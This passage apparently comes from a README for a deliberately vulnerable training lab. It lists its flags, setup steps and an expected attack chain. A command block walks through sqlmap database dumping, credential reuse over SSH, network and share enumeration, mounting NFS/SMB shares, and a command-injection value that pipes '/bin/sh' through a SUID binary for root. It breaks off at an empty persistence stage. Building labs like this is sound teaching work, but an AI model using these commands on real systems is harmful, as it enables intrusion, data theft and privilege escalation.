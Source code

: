 ```bash
echo "Flag 1: Web application database"
echo "Flag 2: NFS share access"
echo "Flag 3: SMB share access"
echo "Flag 4: Root privilege escalation"
```

### Manual Setup Steps
1. Install LAMP stack, SSH, Samba, NFS
2. Create vulnerable web application with SQL injection
3. Set up multiple user accounts with SSH access
4. Configure file shares (NFS/SMB) with sensitive data
5. Create privilege escalation vectors
6. Place flags throughout the attack chain

## Attack Methodology

### Expected Attack Chain
1. **Initial Compromise**:
   - Web application SQL injection
   - Extract credentials from database
2. **Lateral Movement**:
   - SSH to user accounts with discovered credentials
   - Network discovery and enumeration
3. **File Share Access**:
   - Mount NFS/SMB shares
   - Extract additional flags and information
4. **Privilege Escalation**:
   - Exploit sudo misconfigurations
   - SUID binary command injection
5. **Persistence**:
   - Establish backdoor via cron jobs
   - Maintain access for investigation

### Key Commands Red Team Will Use
```bash
# Stage 1: Web exploitation
dirb http://<target_ip>/
sqlmap -u "http://<target_ip>/portal/" --data="username=admin&password=test&submit=Login" --dbs
sqlmap -u "http://<target_ip>/portal/" --data="username=admin&password=test&submit=Login" -D company_db --tables
sqlmap -u "http://<target_ip>/portal/" --data="username=admin&password=test&submit=Login" -D company_db -T documents --dump

# Stage 2: Lateral movement
ssh jsmith@<target_ip>
ssh mjones@<target_ip>

# Stage 3: Network discovery
nmap -sS <target_network>/24
showmount -e <target_ip>
smbclient -L //<target_ip>

# Mount shares
sudo mount -t nfs <target_ip>:/srv/nfs/shared /mnt/nfs
smbclient //<target_ip>/shared -U guest

# Stage 4: Privilege escalation
sudo -l
find / -perm -u=s -type f 2>/dev/null
/usr/local/bin/file_backup "/etc/passwd; /bin/sh"

# Stage 5: Persistence
```